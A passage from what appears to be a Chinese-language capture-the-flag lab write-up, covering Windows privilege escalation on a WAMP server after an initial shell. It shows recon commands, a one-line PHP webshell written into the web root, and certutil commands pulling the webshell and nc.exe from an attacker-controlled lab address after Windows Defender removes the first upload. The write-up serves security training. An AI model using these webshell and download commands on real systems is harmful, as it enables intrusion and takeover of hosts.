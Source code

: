 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)成功拿到第一个flag，但是这个shell每隔一段时间就会断开

0x03 权限提升[system]
-----------------

### 信息收集

#### 系统信息

查看系统信息

```
systeminfo  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)结果显示目标系统安装多个补丁，经过检测后发现无法使用内核提权

#### 进程服务

查看进程未发现可用信息

```
tasklist /v  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)查看服务信息发现 apache 和 mysql 服务都为 system 权限

```
wmic service where started=true get name,startname  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)可借助 Apache 服务完成提权操作

### Windows Defender限制

查看当前用户对 wamp 根目录为何种权限

```
cacls C:\wamp64  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)结果显示具有写入权限，进入 web 目录并插入 webshell

```
echo '<?php echo system($_GET["cmd"]);?>' > cmd.php  
certutil -urlcache -split -f http://10.10.14.17/cmd.php c:\wamp64\www\cmd.php  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)但是木马 cmd.php 直接被 Windows Defender 杀掉了，尝试上传 nc.exe

```
certutil  -f -split -urlcache  http://10.10.14.17/nc.exe C:\Temp\nc.exe  

```
